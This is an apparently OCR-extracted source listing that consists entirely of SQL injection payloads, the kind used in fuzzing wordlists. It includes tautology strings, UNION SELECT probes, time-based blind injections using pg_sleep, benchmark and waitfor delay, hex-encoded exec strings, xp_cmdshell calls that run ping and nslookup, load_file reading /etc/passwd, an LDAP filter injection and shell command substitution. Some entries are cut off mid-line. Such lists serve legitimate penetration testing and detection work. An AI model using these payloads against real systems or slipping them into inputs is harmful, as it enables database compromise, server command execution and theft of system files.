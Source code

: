 ```
 or 1=1 or ''='
 
declare @s varchar (200) select @s = 0x73656c6 ...
exec xp
; exec master..xp_cmdshell 'ping 172.10.1.255'--
3.10E+17
" or pg_sleep(__TIME__)--
x' AND email IS NULL; --
 or 'unusual' = 'unusual'
1) or benchmark(10000000,MD5(1))#
\x27UNION SELECT
declare @s varchar(200) select @s = 0x77616974 ...
tz_offset
sqlvuln
"));waitfor delay '0:0:__TIME__'--
or%201=1 --
%2A%28%7C%28objectclass%3D%2A%29%29
or a=a
) union select * from information_schema.tables;
PRINT @@variable
or isNULL(1/0) /*
26 %
" or "a"="a
(sqlvuln)
x' AND members.email IS NULL; --
 and 1=( if((load_file(char(110,46,101,120,11 ...
0x770061006900740066006F0072002000640065006C00 ...
%20'sleep%2050'
as
1)) or pg_sleep(__TIME__)--
/**/or/**/1/**/=/**/1
 union all select @@version--
,@variable
(sqlattempt2)
 or (EXISTS)
t'exec master..xp_cmdshell 'nslookup www.googl ...
%20$(sleep%2050)
1 or benchmark(10000000,MD5(1))#
%20or%20''='
||UTL_HTTP.REQUEST
 or pg_sleep(__TIME__)--
hi' or 'x'='x';
") or sleep(__TIME__)="
 or 'whatever' in ('whatever')
; begin declare @var varchar(8000) set @var=' ...
 union select 1,load_file('/etc/passwd'),1,1,1;
0x77616974666F722064656C61792027303A303A313027 ...
exec(@s)
) or pg_sleep(__TIME__)--
 union select
 or sleep(__TIME__)#
 select * from information_schema.tables--
a' or 1=1--
a' or 'a' = 'a
declare @s varchar(22) select @s =
 or 2 between 1 and 3
 or a=a--
 or '1'='1
 or sleep(__TIME__)='
 or 1 --'
or 0=0 #"
having
a'
```